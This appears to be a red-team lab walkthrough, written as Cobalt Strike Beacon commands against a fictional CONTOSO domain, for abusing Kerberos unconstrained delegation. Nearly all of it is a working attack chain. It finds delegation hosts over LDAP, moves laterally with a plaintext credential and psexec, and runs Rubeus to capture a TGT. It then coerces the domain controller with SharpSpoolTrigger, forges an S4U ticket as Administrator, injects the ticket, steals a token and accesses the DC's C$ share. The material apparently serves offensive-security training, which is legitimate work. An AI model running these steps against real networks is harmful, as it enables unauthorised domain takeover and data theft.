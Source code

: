 # Attack

1.  Use LDAP to find computers configured with unconstrained delegation.

    ```batch
    ldapsearch (&(samAccountType=805306369)(userAccountControl:1.2.840.113556.1.4.803:=524288)) --attributes samaccountname
    ```
2. Move laterally to _lon-ws-1_.
   2. make\_token CONTOSO\rsteel Passw0rd!
   3. jump psexec64 lon-ws-1 smb
3.  Run Rubeus in monitor mode on _lon-ws-1_.

    ```batch
    execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe monitor /nowrap
    ```
4.  From the medium-integrity Beacon, use a remote authentication trigger to force _lon-dc-1_ to authenticate to _lon-ws-1_.

    ```batch
    execute-assembly C:\Tools\SharpSystemTriggers\SharpSpoolTrigger\bin\Release\SharpSpoolTrigger.exe lon-dc-1 lon-ws-1
    ```

    > You may need to run it a few times.
5.  Use the TGT to request a usable service ticket for cifs/lon-dc-1, impersonating the default domain administrator.

    ```batch
    execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /impersonateuser:Administrator /self /altservice:cifs/lon-dc-1 /ticket:[TGT] /nowrap
    ```

    > The **/self** parameter is key here.
6.  Inject the ticket into a sacraficial logon session.

    ```batch
    execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:CONTOSO.COM /username:Administrator /password:FakePass /ticket:[CIFS TICKET]
    ```
7. Impersonate the process.
   1. steal\_token \[PID]
8. Verify the ticket was injected.
   1. run klist
9. Use the ticket to list the C$ share on _lon-dc-1_.
   1. ls \\\lon-dc-1\c$
